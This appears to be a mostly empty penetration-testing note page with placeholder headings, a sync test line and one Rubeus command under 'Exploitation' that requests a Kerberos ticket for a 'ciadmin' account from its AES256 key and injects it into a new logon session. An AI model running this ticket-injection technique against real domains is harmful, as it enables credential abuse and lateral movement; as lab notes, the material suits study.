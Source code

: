 ## Overview 
// Some code

Hello Trying
Are u syncing
![[Pasted image 20231030015345.png]]
## Enumeration 
// Some code

## Exploitation 
// Some code
``
```
C:\AD\Tools\Rubeus.exe asktgt /user:ciadmin /aes256:<aes256 key of ciadmin> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
